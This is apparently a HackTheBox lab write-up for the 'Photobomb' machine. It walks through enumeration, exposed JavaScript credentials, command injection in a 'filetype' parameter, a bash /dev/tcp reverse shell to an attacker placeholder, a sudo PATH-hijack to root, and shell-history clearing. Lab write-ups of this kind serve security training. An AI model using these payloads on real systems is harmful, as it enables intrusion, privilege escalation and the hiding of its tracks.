


# HTB – Photobomb (Linux, Easy)

## Table of Contents
- General Info
- Objectives
- Enumeration
- Exploitation
- Initial Shell
- Privilege Escalation
- Post-Exploitation Proof
- Cleanup
- Key Takeaways
- Conclusion

---

## General Info
- **Machine name:** Photobomb  
- **Platform:** HackTheBox  
- **OS:** Linux (Ubuntu)  
- **Difficulty:** Easy  
- **Type:** Boot2Root (goal: user + root)

---

## Objectives
- Identify entry points through enumeration  
- Exploit vulnerable web functionality to gain a foothold  
- Escalate privileges to root via misconfigured sudo script  

---

## Enumeration

### Nmap Scan
Command: nmap -sC -sV -oA nmap/photobomb <target_IP>  
Result:  
- 22/tcp – OpenSSH 8.9p1 (Ubuntu 3ubuntu0.1)  
- 80/tcp – nginx 1.18.0 (Ubuntu)  

### Virtual Host
The web server expects hostname photobomb.htb.  
Added entry in /etc/hosts:  
<target_IP>    photobomb.htb  

*Figure 1 – Nmap scan results*  

*Figure 2 – /etc/hosts modification*

---

## Exploitation

### Discovered Credentials
Viewing page source (view-source:http://photobomb.htb) revealed photobomb.js.  
Inside the code, static credentials were present:  
- Username: pH0t0  
- Password: b0Mb!  
Login URL: http://photobomb.htb/printer  

*Figure 3 – Credentials exposed in photobomb.js*

### Command Injection
POST request to /printer is vulnerable to command injection in parameter `filetype`.

Example payload: `filetype=png;sleep 5;`  
Response time increased by ~5 seconds, confirming execution of system command. 

*Figure 4 – Burp Suite request showing command injection*

### Reverse Shell
Payload: filetype=jpg;bash -i >& /dev/tcp/<attacker_IP>/<attacker_port> 0>&1  
Listener: nc -lvnp 9001  
Result: reverse shell as user wizard.  

*Figure 5 – Reverse shell established as wizard*

---

## Initial Shell
Stabilized with:  
python3 -c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  

*Figure 6 – Stabilized wizard shell*

---

## Privilege Escalation

### Sudo Permissions
Checked with: sudo -l  
Output: (root) SETENV: NOPASSWD: /opt/cleanup.sh  

*Figure 7 – Sudo permissions for cleanup.sh*

### Script Analysis
Content of /opt/cleanup.sh:  
#!/bin/bash  
. /opt/.bashrc  
cd /home/wizard/photobomb  
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]; then  
  /bin/cat log/photobomb.log > log/photobomb.log.old  
  /usr/bin/truncate -s0 log/photobomb.log  
fi  
find source_images -type f -name '*.jpg' -exec chown root:root {} \;  

Observation: find is called without absolute path → vulnerable to $PATH hijack.  

### Exploiting PATH Hijack
Steps:  
cd /dev/shm  
echo -e '#!/bin/bash\nbash' > find  
chmod +x find  
sudo PATH=/dev/shm:$PATH /opt/cleanup.sh  
Result: root shell obtained.  

*Figure 8 – Root shell obtained via PATH hijack*

---

## Post-Exploitation Proof
User flag: cat /home/wizard/user.txt  
Root flag: cat /root/root.txt  

*Figure 9 – User flag*  
  
Output: `HTB{redacted}`  

*Figure 10 – Root flag*  
  
Output: `HTB{redacted}`

---

## Cleanup
rm -f /dev/shm/find  
history -c  
exit  

---

## Key Takeaways
- Hidden credentials in JS can expose login details.  
- Command injection in poorly validated parameters leads directly to RCE.  
- Always enumerate sudo -l for privilege escalation opportunities.  
- $PATH hijacking is a common and dangerous misconfiguration.  

---

## Conclusion
The Photobomb machine demonstrated a straightforward attack chain:  
- Enumeration revealed a vhost and JS credentials.  
- Exploitation via command injection granted shell access as wizard.  
- Privilege escalation through sudo misconfiguration led to root.  
- Both user and root flags were successfully retrieved.  

This lab emphasizes the importance of code review, secure credential handling, and proper path usage in privileged scripts.
